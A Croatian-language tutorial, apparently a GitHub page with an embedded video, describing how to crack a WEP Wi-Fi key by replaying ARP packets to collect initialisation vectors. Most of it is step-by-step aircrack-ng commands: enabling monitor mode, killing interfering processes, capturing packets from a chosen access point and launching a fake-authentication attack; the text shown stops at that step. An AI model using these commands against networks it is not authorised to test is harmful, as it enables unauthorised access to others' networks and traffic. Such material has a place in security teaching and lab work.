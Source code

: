 <style>.embed-container { position: relative; padding-bottom: 56.25%; height: 0; overflow: hidden; max-width: 100%; } .embed-container iframe, .embed-container object, .embed-container embed { position: absolute; top: 0; left: 0; width: 100%; height: 100%; }</style><div class='embed-container' style="margin-bottom: 1rem;"><iframe src="https://www.youtube-nocookie.com/embed/svCa25vaN8g" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe></div>

> **Opis napada**
> 
> Ovaj napad se bazira na interaktivnom prosljeđivanju posebnih ARP paketa koji omogućavaju da pristupna točka generira
> nove inicijalizacijske vektore (IV). Tijekom odašiljanja takvih paketa, biti će pokrenuto snimanje paketa koje pošalje
> pristupna točka. Iz prikupljenih paketa je moguće izračunati ključ za pristup i enkripciju podataka.

1. korak - pokrenuti airmon-ng i ispisati popis dostupnih wlan sučelja

    `sudo airmon-ng`

2. korak - pokrenuti 'Monitor Mode' na sučelju wlan0
  
    **Ako postoje procesi koji koriste karticu (ispiše se upozorenje u prethodnom koraku), ugasiti ih pomoću naredbe:**
    `sudo airmon-ng check kill `

    `sudo airmon-ng start wlan0`

3. korak - ispisati sve WiFi mreže koje hvata mrežna kartica

    `sudo airodump-ng wlan0mon`

    **Obavezno napisati** `wlan0mon` **jer je to sučelje koje se koristi za 'Monitor Mode'**

4. korak - zapisati podatke o mreži dobivene u prethodnom koraku

    - BSSID
    - kanal (CH)
    - ESSID (nije nužno)

    Nakon toga prekinuti skeniranje sa CTRL + C.

5. korak - pokrenuti prikupljanje paketa za željenu mrežu

    napraviti novi direktorij sa naredbom `mkdir direktorij` i prebaciti se u njega sa naredbom `cd direktorij`
    
    `sudo airodump-ng --bssid BSSID_mreže -w ESSID_mreže -c Kanal_mreže wlan0mon`

    - `-bssid -> BSSID mreže (MAC adresa routera)`

    - `-w -> naziv datoteke u koju će se pohraniti paketi (u trenutnom direktoriju)`

    - `-c -> kanal na kojem je mreža`

    - `wlan0mon -> sučelje za prikupljanje paketa`

    Otvoriti novi terminal (NE ZATVARATI ili prekidati airodump):
    
    `sudo aireplay-ng -1 0 -a BSSID_mreže wlan0mon` - napad <a href="https://www.aircrack-ng.org/doku.php?id=fake_authentication">*lažnom autentifikacijom*</a>
